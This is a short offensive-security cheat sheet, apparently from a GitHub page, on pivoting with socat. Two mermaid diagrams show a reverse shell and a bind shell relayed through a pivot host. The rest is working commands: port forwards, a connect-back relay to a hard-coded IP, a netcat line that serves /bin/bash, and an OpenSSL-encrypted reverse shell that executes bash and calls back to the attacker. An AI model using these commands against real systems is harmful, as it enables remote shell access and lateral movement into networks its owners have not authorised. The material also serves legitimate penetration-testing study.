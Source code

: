 ```mermaid
---
title: Socat Diagramm Reverse Shell
---
flowchart TD
subgraph Z[" "]
direction LR
    C(Target 1) -->|8080| B(Pivot: Socat listens 8080):::bar -->|80| A[Attacker listens 80]:::foo
    D(Target 2) -->|8080| B(Pivot: Socat listens 8080):::bar 
    E(Target n) -->|8080| B(Pivot: Socat listens 8080):::bar 
    classDef foo stroke:#f00
    classDef bar stroke:#0f0
end
```

```mermaid
---
title: Socat Diagramm Bind Shell
---
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::foo -->|8080| B(Pivot: Socat listens 8080):::bar -->|8443| C(Target 1 listens 8443) 
    B(Pivot: Socat listens 8080):::bar -->|8443| D(Target 2 listens 8443) 
    B(Pivot: Socat listens 8080):::bar -->|8443| E(Target n listens 8443) 
    classDef foo stroke:#f00
    classDef bar stroke:#0f0
end
```

```
# Bind shell
socat TCP4-LISTEN:8080,fork TCP4:TARGET:8443
```

- Port Forwarding - Method 1
  - open port on target + redirect to target server = ./socat tcp-l:[port_on_target],fork,reuseaddr tcp:[target_ip]:3306 &

- Method 2 -Quieter  
  - Attacker, opens to ports: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
  - target: ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
- on target: ./socat tcp-l:8000 tcp:10.50.102.138:443 & => connect target back to us on port 443
- on target: ./nc 127.0.0.1 8000 -e /bin/bash ==> listen to port 8000 
- Port Forwarding [From_Pivot_to_TARGET]: ./socat tcp-l:[port_on_Pivot],fork,reuseaddr tcp:[IP_Target]:3306 &

- Encrypted:
  - Create key + Litener + Connect
  - Create certificate: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
  - merge keys: cat shell.key shell.crt > shell.pem
  - listener: socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
  - connect back: socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
 close all:
  - jobs ==> find socats processes 
